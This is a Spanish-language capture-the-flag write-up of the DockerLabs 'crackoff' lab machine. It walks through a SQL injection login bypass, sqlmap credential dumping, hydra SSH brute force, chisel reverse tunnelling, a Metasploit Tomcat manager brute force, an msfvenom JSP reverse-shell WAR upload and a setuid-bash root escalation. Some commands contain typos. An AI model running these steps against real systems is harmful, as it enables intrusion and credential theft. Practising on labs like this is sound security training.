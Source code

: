 nmap: 22,80

![image](https://github.com/user-attachments/assets/c7952ccc-1a71-4e0f-8171-57b0b65eff9f)

---

entramos a la pagina principal

![image](https://github.com/user-attachments/assets/5b370534-bdd8-4936-8f3f-2f41dd4890cf)


En el login de la pagina

![image](https://github.com/user-attachments/assets/08eeadc6-b8c7-451d-8990-0d9e60ec74bf)


probamos un sql básico " 'or 1=1-- -" y nos da acceso al panel de control, o sea es vulnerable a un RCE o LFI.  y buscando que mas hacer par obtener algún usuario o algo, encontré que podemos ver la base de datos por esto:

![image](https://github.com/user-attachments/assets/f7d1bf36-5e3a-44ae-b6b6-610cded1346a)


probamos con la base de datos

    sqlpmap --url http://172.17.0.2/login.php --forms --batch --dbs

![image](https://github.com/user-attachments/assets/5135f540-3545-4ba5-9d04-2dd87713d821)


ahora mas especifico:

    qlmap --url http://172.17.0.2/login.php --forms --batch --dbs --time-sec=1 --dump

nos da después de un rato una tabla con usuarios y contraseñas posibles:

![image](https://github.com/user-attachments/assets/763169fd-80d6-447c-be57-2bdafc6f3932)

creamos en nuestra terminal un txt de pass y user. 
luego un hydra para que pruebe combinaciones: 

    hydra -L user.txt -P pass.txt ssh://172.17.0.2 -vV

nos dio: 

![image](https://github.com/user-attachments/assets/e52d80f1-af2d-4400-aa76-828e83f0f9d8)

entramos por el ssh

![image](https://github.com/user-attachments/assets/f7c0fa87-a2b7-41cd-a94f-e3c665e96fac)

y vemos que hay tres usuarios: Alice, Mario y rosa que somos nosotros.

escalamos: encontré esta nota  
![[dockerlabs/dificil/crackoff/nota.png]]
![[nota2.png]]
el contenido de la nota: flowerpower
probé si era la contraseña pero no es
buscando probé con el comando 

     netstat -an

y me dio esto que me llamo la atención
![[8080.png]]

descargamos chisel: https://github.com/jpillora/chisel/releases/tag/v1.10.0

gunzip chisel
y lo pasamos a la maquina victima con wget mientras tenemos el servidor abierto en nuestra terminal. 

    wget http://172.17.0.2/chisel

![[chisel.png]]

iniciamos en nuestra terminal un servidor: 

    ./chisel server -p 1234 --reverse
y en la maquina víctima: 

    ./chisel client 172.17.0.1:1234 R:443:127.0.0.1:8080

![[dockerlabs/dificil/crackoff/conexion1.png]]

entonces entramos al puerto 8080 por el 443:
http://127.0.0.1:443/
![[tomcat.png]]

ahora empezamos a escalar hacia los otros usuarios a través de "manager app" de la pagina tomcat.

como ninguna credencial que buscamos en: https://book.hacktricks.xyz/v/es/network-services-pentesting/pentesting-web/tomcat

sirvió mas abajo en la misma pagina nos muestra que busquemos por metasploit:

hacemos una fuerza bruta  a través de metasploit con los siguientes pasos:

     - use auxiliary/scanner/http/tomcat_mgr_login
     - set RHOSTS 127.0.0.1
     - set RPORT 8080
     - set USER_FILE /home/skopjee/user.txt
     - set PASS_FILE /home/skopjee/pass.txt
     - set TARGETURI /manager/html
     - run
y nos dio

    [+] 127.0.0.1:8080 - Login Successful: tomitoma:supersecurepasswordultra


ingresamos a mager app
![[panel2.png]]

creamos un archivo malicioso: 

    msfvenom -p java/jsp_shell_reverse_tcp LHOST=172.17.0.1 LPORT=4444 -f war -o rev.war

lo subimos en el apartado de "WAR"
![[dockerlabs/dificil/crackoff/war.png]]

cargamos y a parecerá en la parte principal de la pagina como "rev"
![[rev.png]]

ahora colocamos el terminal en escucha y nos conectamos
![[dockerlabs/dificil/crackoff/conexion2.png]]

luego de conectarme buscamos como llegar a root:
![[catalina.png]]

escalamos privilegios con sh:

    echo 'chmod u+s /bin/bash' >> /opt/tomcat/bin/catalina.sh

ahora lo iniciamos

     sudo -u root /opt/tomcat/bin/catalina.sh start

si vemos los permisos bash veremos que cambiaron:

 ![[dockerlabs/dificil/crackoff/root.png]]

y al hace el bash -p seremos root!
